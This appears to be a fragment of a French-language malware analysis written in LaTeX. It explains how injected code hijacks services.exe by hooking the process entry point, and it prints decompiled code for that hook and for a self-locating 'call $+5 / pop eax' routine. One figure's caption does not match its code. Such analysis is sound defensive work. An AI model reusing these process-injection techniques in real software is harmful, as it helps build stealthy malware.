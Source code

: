 \documentclass[times,11pt,fullpage]{article}
\newcommand{\service}{\texttt{services.exe}}
\begin{document}
\begin{figure}
\begin{verbatim}
        // Apply HOOK on process entrypoint
        *(DWORD *)InfectedProcessEntryPointAddr = g_MovEAX0opcode;
        *(WORD *)(InfectedProcessEntryPointAddr + 4) = *(&g_MovEAX0opcode + 2);
        result = *(&g_CallEAXopcode + 1);
        *(BYTE *)(InfectedProcessEntryPointAddr + 6) = *(&g_CallEAXopcode + 1);
        *(DWORD *)(InfectedProcessEntryPointAddr + 1) = HookJump;
      }
    }
  }
  return result;
}};
\end{verbatim}
\caption{Recherche des 10 fonctions dans la DLL \texttt{kernel32.dll}.\label{fig:Kernel32PE}}
\end{figure}

Le mécanisme de lancement de la charge est maintenant armé. Laissons faire le système...

\subsection{Exécution de la charge}
Le système d'exploitation termine l'initialisation du processus \service\ puis procède à son exécution en donnant la main au code indiqué par son point d'entrée. En réalité, le système ne fait que démarrer le code injecté dans ce processus à son insu. La première étape du code injecté consiste à déterminer sa propre adresse en mémoire car toutes ses futures opérations en dépendent (lecture, écriture et saut en mémoire). Le procédé est classique et un exemple est donné Figure \ref{fig:GetAbsoluteAddress} : il suffit de réaliser un saut à l'instruction suivante (\emph{call +5}), ce qui a pour effet de placer l'adresse de retour (où est présente l'instruction \emph{pop eax}) en haut de la pile, puis de dépiler l'adresse de retour dans un registre (ici dans \texttt{eax} : \emph{pop eax}).

\begin{figure}
\scriptsize
\begin{framed}
\begin{verbatim}
DWORD __fastcall Mod_GetAbsoluteAddress(
      __in DWORD OffsetVar)
{
  _asm {
          call $+5
          pop  eax
          // db 3Eh 
          lea edx, ds:0x6E2     // edx = adresse de début du fichier (indicateur 'MZ') 
          sub eax, edx
          add eax, ecx          // ecx = OffsetVar 
  }   
}
\end{verbatim}
\end{framed}
\caption{Technique utilisée pour déterminer son adresse absolue.\label{fig:GetAbsoluteAddress}}
\end{figure}
  
\end{document}
